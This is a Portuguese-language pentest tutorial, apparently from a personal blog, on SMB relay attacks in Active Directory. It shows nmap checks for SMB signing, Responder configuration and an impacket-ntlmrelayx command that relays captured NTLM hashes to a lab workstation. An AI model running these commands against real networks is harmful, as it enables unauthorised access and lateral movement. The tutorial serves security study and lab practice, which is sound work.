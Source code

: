 ```yaml
---
title: "SMB Relay Attack"
#date: 2022-10-01T18:13:02+01:00
draft: false
tags:
  - Active Directory
  - Poisoning & Spoofing
  - NTLMV2
  - MITM
  - SMB
---
```


## Definição

Em vez de capturarmos as _hashes_ e tentarmos extrair a password podendo não existir sucesso devido à sua complexidade.
Este ataque usa a _hash_ capturada e encaminha para ganhar acesso noutra maquina, fazendo _relay_ da _hash_.
Em caso de sucesso este ataque é usado para movimentação lateral dentro de um dominio.

## Cenário

O cenário é constituido por duas _workstations_ em que o utilizador José Cid é _local administrator_ nas duas maquinas (WS01 e WS02).
O _SMB Signing_ encontra-se desabilitado.

![](CenarioSMBRelay.jpg#center)

### Requisitos

Para que este ataque seja possivel, o ambiente tem de ter os seguintes requisitos:

- _SMB Signing_ _disabled_;
- O utilizador tem de ser administrator local das maquinas envolvidas.

## Enumeração

### SMB Signing Disabled

O primeiro passo é verificar se o _SMB Signing_ está inactivo e para isso usaremos o nmap com o comando abaixo:

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>

```

ou

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>/<CIDR>

```

Podemos verificar que está activo mas não obrigatório o seu uso.

![](smbrecon.png#center)

## Exploração (PoC)

### Configuração do _responder_

Como o objectivo é reenviar a _hash_ que iremos receber para outra workstation iremos configurar o _responder_ .
Teremos que desabilitar

```bash
sudo vi /etc/responder/Responder.conf
```

![](smbrelayresponderconfig.png)

```bash
sudo responder -I eth0 -wdv

```

![](smbrelayresponderrunning.png)

De seguida iremos utilizar uma ferramenta da _impacket_ para fazer relay da _hash_ para a outra máquina com o objectivo de ganharmos acesso sobre a mesma.

impacket-ntlmrelayx -smb2support -t 192.168.0.102

**[LLMNR](/posts/ad_llmnr/#explora%C3%A7%C3%A3o-poc)**
